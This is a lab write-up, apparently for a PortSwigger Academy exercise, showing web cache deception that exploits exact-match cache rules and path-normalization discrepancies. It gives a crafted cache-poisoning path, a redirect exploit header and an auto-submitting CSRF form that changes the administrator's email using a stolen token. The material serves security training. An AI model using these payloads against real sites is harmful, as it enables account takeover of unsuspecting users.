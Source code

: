 # Exploiting exact-match cache rules for web cache deception

## Table of Contents

  1. [Overview](#overview)  
  2. [Background](#background)  
  3. [Enumeration](#enumeration)  
    3.1 [Exploiting File Name Cache Rules](#exploiting-file-name-cache-rules)  
    3.2 [Detecting Normalization By the Origin Server](#detecting-normalization-by-the-origin-server)  
    3.3 [Detecting Normalization By the Cache Server](#detecting-normalization-by-the-cache-server)  
    3.4 [Exploiting Normalization Discrepancies](#exploiting-normalization-discrepancies)  
  4. [Exploitation](#exploitation)  
  5. [Conclusion](#conclusion)  

## Overview

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-exact-match-cache-rules), you'll learn: Exploiting exact-match cache rules for web cache deception! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

To solve the lab, change the email address for the user `administrator`. You can log in to your own account using the following credentials: `wiener:peter`.

We have provided a list of possible delimiter characters to help you solve the lab: [Web cache deception lab delimiter list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list).

## Enumeration

Index page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810192630.png)

Login page:

Let's login as user `wiener`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810192650.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810192708.png)

After logging in, we can view our profile page.

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810192911.png)

When we logged in, it'll send a POST request to `/validateSession` with parameter `csrf`.

We can also update our email:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810192945.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810193019.png)

More over, in our Burp Suite HTTP history, we can see that resource `/favicon.ico` was cached:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810193438.png)

### Exploiting File Name Cache Rules

Certain files such as `robots.txt`, `index.html`, and `favicon.ico` are common files found on web servers. They're often cached due to their infrequent changes. Cache rules target these files by matching the exact file name string.

To identify whether there is a file name cache rule, send a `GET` request for a possible file and see if the response is cached.

### Detecting Normalization By the Origin Server

To test how the origin server normalizes the URL path, we can send a request to a non-cacheable resource with a path traversal sequence and an arbitrary directory at the start of the path. To choose a non-cacheable resource, look for a non-idempotent method like `POST`.

For example, we can modify `/my-account` to `/anything/..%2fmy-account`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810193853.png)

As you can see, it respond HTTP status code "404 Not Found", which means the path has been interpreted as `/anything/..%2fmy-account`. **The origin server either doesn't decode the slash or resolve the dot-segment.**

### Detecting Normalization By the Cache Server

Same as detecting normalization by the origin server, we can choose a request with a cached response and resend the request with a path traversal sequence and an arbitrary directory at the start of the static path. Choose a request with a response that contains evidence of being cached.

For example, we can cache `/favicon.ico`. Then send path `/anything/..%2f/favicon.ico`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810194128.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810194144.png)

As you can see, the response is still cached, this may indicate that the cache has normalized the path from `/anything/..%2f/favicon.ico` to `/favicon.ico`.

### Exploiting Normalization Discrepancies

Because the response is only cached if the request matches the exact file name, **we can only exploit a discrepancy where the cache server resolves encoded dot-segments, but the origin server doesn't.**

To do so, we can construct a payload according to the following structure: `/<dynamic-path>%2f%2e%2e%2f<static-directory-prefix>`.

However, since the origin server is likely to return an error message instead of profile information, we'll need to also **identify a delimiter that is used by the origin server but not the cache**. Test possible delimiters by adding them to the payload after the dynamic path.

After fuzzing by hand, we can find that character `;` is the delimiter:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810201835.png)

This path `/my-account;%2f%2e%2e%2ffavicon.ico` resulted in different result in the origin and cache server:

- The cache interprets the path as: `/favicon.ico`
- The origin server interprets the path as: `/my-account`

What now? What we can do with this web cache deception vulnerability?

Maybe we can steal the CSRF token, and then change the victim's email address via exploiting CSRF??

## Exploitation

Let's try to cache the victim's profile page, and see what'll happen.

First, modify the response header to this:

```http
HTTP/1.1 301 Moved Permanently
Location: https://0ab6002d0430479d8014a882002800d7.web-security-academy.net/my-account;%2f%2e%2e%2ffavicon.ico
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810203653.png)

Then, click button "Deliver exploit to victim":

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810203710.png)

After that, before the cache expired, go to `/my-account;%2f%2e%2e%2ffavicon.ico` to visit the cached response:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810203741.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240810203753.png)

As you can see, the victim in this case is `administrator` and we got the CSRF token.

After the second try, **the CSRF token didn't change at all**.

With that said, we can **use `administrator`'s CSRF token to update his email**!

**CSRF Payload:**
```html
<form id="csrfForm" name="change-email-form" action="https://0aae002f0480e270c92ee04100ba0094.web-security-academy.net/my-account/change-email" method="POST">
  <label>Email</label>
  <input required type="email" name="email" value="pwned@attacker.com">
  <input required type="hidden" name="csrf" value="heM6rtv6eAHoC8r1Jl9EKMWjLBdRb2aq">
  <button class='button' type='submit'> Update email </button>
</form>
<script>
  csrfForm.submit();
</script>
```

This payload will automatically submit the update email form upon visiting.

**Remember to change the response header to serve our payload:**
```http
HTTP/1.1 200 OK
Content-Type: text/html
```

Finally, send our CSRF payload to the victim via the "Deliver exploit to victim" button:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240815125346.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-5/images/Pasted%20image%2020240815125358.png)

## Conclusion

What we've learned:

1. Exploiting exact-match cache rules for web cache deception